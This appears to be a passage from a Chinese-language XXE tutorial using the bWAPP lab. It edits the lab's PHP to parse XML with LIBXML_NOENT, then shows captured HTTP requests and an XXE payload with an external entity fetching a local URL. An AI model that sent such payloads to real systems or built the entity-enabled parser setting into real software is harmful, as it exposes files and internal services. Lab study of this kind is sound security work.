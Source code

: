 ## 实战演练

在实战过程中，我们选用靶场bwapp做测试，需要注意的是，我们要将bwapp靶场中的xxe-2.php文件中的内容作修改，将$xml的值改为如下：

```php
$xml = simplexml_load_string($body,'SimpleXMLElement',LIBXML_NOENT);

```

然后，打开靶场我们可以看到，页面中有一个按钮 `Any bugs?`，我们点击不会有反应，这时候可以打开Burpsuite做测试，通过捕获我们获取到点击按钮会发送请求：

```plain
POST /xxe-2.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 59
sec-ch-ua: "Chromium";v="95", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
sec-ch-ua-platform: "macOS"
Content-type: text/xml; charset=UTF-8
Accept: */*
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/xxe-1.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: security_level=0; PHPSESSID=847jvmklugetdus5u1on5b92v6
Connection: close

<reset><login>bee</login><secret>Any bugs?</secret></reset>

```

经过观察，我们看到Content-type的值为text/xml，所以我们可以分析出下面的数据为XML数据，于是可以尝试进行XXE攻击。

```plain
POST /xxe-2.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 178
sec-ch-ua: "Chromium";v="95", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
sec-ch-ua-platform: "macOS"
Content-type: text/xml; charset=UTF-8
Accept: */*
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/xxe-1.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: security_level=0; PHPSESSID=847jvmklugetdus5u1on5b92v6
Connection: close

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE reset[
<!ENTITY Info SYSTEM "http://127.0.0.1/1.txt">
]>

<reset><login>&Info;</login><secret>Any bugs?</secret></reset>

```